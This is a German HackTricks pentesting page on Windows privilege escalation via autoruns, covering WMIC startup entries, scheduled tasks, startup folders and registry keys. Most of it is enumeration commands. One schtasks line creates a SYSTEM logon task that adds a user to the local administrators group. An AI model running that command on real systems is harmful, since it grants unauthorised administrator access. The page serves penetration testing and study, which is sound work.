 # Privilegienerhöhung mit Autoruns

{{#include ../../banners/hacktricks-training.md}}



## WMIC

**Wmic** kann verwendet werden, um Programme beim **Start** auszuführen. Sehen Sie, welche Binaries so programmiert sind, dass sie beim Start ausgeführt werden:
```bash
wmic startup get caption,command 2>nul & ^
Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl
```
## Geplante Aufgaben

**Aufgaben** können mit **bestimmter Häufigkeit** geplant werden. Sehen Sie, welche Binaries geplant sind, um ausgeführt zu werden mit:
```bash
schtasks /query /fo TABLE /nh | findstr /v /i "disable deshab"
schtasks /query /fo LIST 2>nul | findstr TaskName
schtasks /query /fo LIST /v > schtasks.txt; cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

#Schtask to give admin access
#You can also write that content on a bat file that is being executed by a scheduled task
schtasks /Create /RU "SYSTEM" /SC ONLOGON /TN "SchedPE" /TR "cmd /c net localgroup administrators user /add"
```
## Ordner

Alle Binaries, die sich in den **Startup-Ordnern befinden, werden beim Start ausgeführt**. Die gängigen Startup-Ordner sind die im Folgenden aufgeführten, aber der Startup-Ordner ist in der Registrierung angegeben. [Read this to learn where.](privilege-escalation-with-autorun-binaries.md#startup-path)
```bash
dir /b "C:\Documents and Settings\All Users\Start Menu\Programs\Startup" 2>nul
dir /b "C:\Documents and Settings\%username%\Start Menu\Programs\Startup" 2>nul
dir /b "%programdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
dir /b "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
```
## Registrierung

> [!NOTE]
> [Hinweis von hier](https://answers.microsoft.com/en-us/windows/forum/all/delete-registry-key/d425ae37-9dcc-4867-b49c-723dcd15147f): Der **Wow6432Node** Registrierungseintrag zeigt an, dass Sie eine 64-Bit Windows-Version ausführen. Das Betriebssystem verwendet diesen Schlüssel, um eine separate Ansicht von HKEY_LOCAL_MACHINE\SOFTWARE für 32-Bit-Anwendungen anzuzeigen, die auf 64-Bit Windows-Versionen ausgeführt werden.
